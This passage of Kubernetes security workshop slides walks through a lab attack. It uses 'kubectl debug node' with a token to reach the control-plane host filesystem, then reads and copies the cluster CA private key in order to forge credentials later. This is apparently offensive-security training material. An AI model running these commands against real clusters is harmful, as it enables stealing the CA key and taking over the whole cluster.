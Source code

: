 ### Slide 132 - Priv esc to golden tickets (lab cont.)

That last command doesn't work anymore, lets try something else...

Let's 'debug' the control plane using a debug pod

```
kubectl debug node/lab-control-plane -it --image=ubuntu --token=$TOKEN
```

You now have a session in this special debug pod, it nicely mounts the host filesystem for us so you can "debug" it
```
cd /host
```

Now we can go after that CA private key for the PKI
```
cat etc/kubernetes/pki/ca.key
```

Copy and paste this to notepad or something for later

Might as well grab the PKI CA cert too even though its already public its convenient.
```
cat etc/kubernetes/pki/ca.crt
```

Copy and paste this too


### Slide 134 - CA keys - golden tickets (kill shot)

Do this twice to back out of both shell instances (debug pod and pod you exec'ed to as developer account)
```
exit
```

Create a directory we can work with the certs in
```
mkdir ~/certs && cd ~/certs
```

Paste this line
```
cat << -EOF- > ca.key
```
Paste the contents of the the CA private key (ca.key) we grabbed earlier (the one starting with `-----BEGIN RSA PRIVATE KEY-----`)

Paste the -EOF- string to signal to cat we're done
```
-EOF-
```

Normally cat reads files, but this is an easy way to paste contents into a file, in this case it is written to `ca.key` which is the same name as it had where we found it.

**Note:** The -EOF- is a special string we specify to cat that we're done inputting. It can be any string, but normally, the convention is to use `EOF`, we only added dashes to either side on the off change the characters `EOF` together is a random part of the key. 
